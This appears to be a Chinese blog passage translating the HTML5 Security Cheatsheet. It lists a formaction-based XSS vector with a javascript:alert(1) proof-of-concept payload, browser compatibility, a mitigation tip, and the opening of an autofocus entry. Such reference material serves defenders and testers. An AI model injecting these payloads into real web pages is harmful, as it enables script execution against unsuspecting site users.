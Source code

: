 title: HTML5 Security Cheatsheet
date: 2016-02-16 22:19:53
tags:
  - 渗透
---

> 来源：[HTML5 Security Cheatsheet](https://html5sec.org/)



## HTML5特性向量

### 通过formaction属性进行XSS - 需要用户进行交互 (1)[#1](#1)[test](test/#1)

这个向量展示了通过HTML5的form和formaction从外部劫持表单的一种方法.


```
<form id="test"></form><button form="test" formaction="javascript:alert(1)">X</button>
```

不要让用户提交包含 "form" 和 "formaction"属性的标签.避免在form中出现id属性及提交按钮.

*   firefox 4.0
*   firefox latest

*   opera 10.5
*   opera latest

*   chrome 10.0
*   chrome latest

*   safari 4.0.4
*   safari latest

*   internet explorer 10
*   internet explorer latest (inside form element)

*   xss
*   html5
*   opera
*   chrome
*   firefox
*   formaction
*   javascript
*   button

*   [http://www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#attr-fs-formaction](http://www.whatwg.org/specs/web-apps/current-work/multipage/association-of-controls-and-forms.html#attr-fs-formaction)

reporter：.mario

### 通过autofocus属性执行本身的focus事件[#7](#7)[test](test/#7)

这个向量是使焦点自动跳到输入元素上,触发焦点事件 - 无需用户交互
